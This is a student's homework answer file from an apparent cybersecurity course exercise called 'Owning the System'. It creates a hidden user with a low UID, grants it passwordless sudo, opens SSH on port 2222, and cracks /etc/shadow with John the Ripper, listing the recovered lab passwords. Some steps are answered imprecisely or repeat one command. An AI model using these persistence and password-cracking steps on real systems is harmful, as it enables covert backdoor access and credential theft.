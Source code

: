 ﻿**Week 6 Homework Submission File: Advanced Bash - Owning the System**

**Step 1: Shadow People**

1. Create a secret user named sysd. Make sure this user doesn't have a home folder created:

﻿**useradd -u 111 -g 111 sysd**

1. Give your secret user a password:

﻿**passwd sysd**

1. Give your secret user a system UID < 1000:

﻿ **useradd -u 111 -g 111 sysd**

1. Give your secret user the same GID:

**useradd -u 111 -g 111 sysd**

1. Give your secret user full sudo access without the need for a password:

﻿	**nano /etc/sudoers** 

`	`**﻿sysd  ALL=(ALL:ALL) NOPASSWD: ALL**

1. Test that sudo access works without your password:

**sudo id** 









**Step 2: Smooth Sailing**

1. Edit the sshd\_config file:

` `**nano /etc/ssh/sshd\_config**

﻿**Port 22**

**Port 2222**



**Step 3: Testing Your Configuration Update**

1. Restart the SSH service:

﻿**systemctl restart sshd**

1. Exit the root account:

**exit**

1. SSH to the target machine using your sysd account and port 2222:

﻿**ssh sysd@192.168.6.105 -p 2222**

1. Use sudo to switch to the root user:

**sudo -s**







**Step 4: Crack All the Passwords**

1. SSH back to the system using your sysd account and port 2222:

**ssh sysd@192.168.6.105 -p 2222**

1. Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file:

﻿**sudo john /etc/shadow**

﻿**computer         (stallman)**

**freedom          (babbage)**

**trustno1         (mitnik)**

**dragon           (lovelace)**

**lakers            (turing)**

**passw0rd      (sysadmin)**

**cyber             (sysd)**
